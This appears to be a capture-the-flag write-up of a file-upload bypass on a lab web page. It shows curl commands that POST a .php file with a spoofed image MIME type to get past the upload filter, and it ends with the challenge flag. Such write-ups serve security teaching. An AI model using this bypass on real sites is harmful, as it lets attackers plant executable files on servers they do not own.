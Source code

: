  # Upload bypass
 
 In ?page=upload page we are asket to upload an image so lets try to upload a malicious file first i tried a file .php and got this response
 
 > Your image was not uploaded.

then I tried next .php.jpg the response was

> /tmp/file.php.jpg succesfully uploaded.

But no flag so there is another way to do it lets try with curl 

> -X to specify the method type in our case its POST

> -F specify data to send (files) example email=blabla@blabla.bla the email is the name of the input

In ouar case there is 2 input the first one is uploaded that contain the data then Upload to submit

> curl -i -X POST -F "uploaded=@/Users/oel-ouar/Desktop/file.php" -F Upload=Upload http://ipaddress/?page=upload

We got the same response now lets try to change the mime type of the file

> curl -i -X POST -F "uploaded=@/Users/oel-ouar/Desktop/file.php;type=image/jpg" -F Upload=Upload http://10.12.177.243/?page=upload

Worked !

> <h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2>

